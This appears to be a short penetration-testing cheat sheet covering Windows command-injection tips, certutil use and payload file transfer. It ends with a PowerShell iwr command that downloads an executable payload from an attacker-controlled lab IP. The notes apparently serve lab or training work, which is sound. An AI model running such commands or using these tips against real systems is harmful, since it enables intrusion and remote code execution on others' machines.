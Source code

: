 # RCE / Command Injection
- If normal command execution doesn't work, try to use `cmd /c <your command here>`.
- You can add `certutil.exe` command without the name of the output file.
- You can add `certutil.exe` URL without single/double quotes.
- If you cannot run executables like whoami, systeminfo; then go to `C:\Windows\system32` folder to run this commands, because they may not be on our `PATH`.

# File Transfer
**Note: Netcat doesn't know how to handle a staged payload. To get a functional interactive command prompt, we can use Metasploit's `multi/handler` module, which works for the majority of staged, non-staged, and more advanced payloads.**
PowerShell:
```
iwr -uri http://192.168.119.2/nonstaged.exe -Outfile nonstaged.exe
```
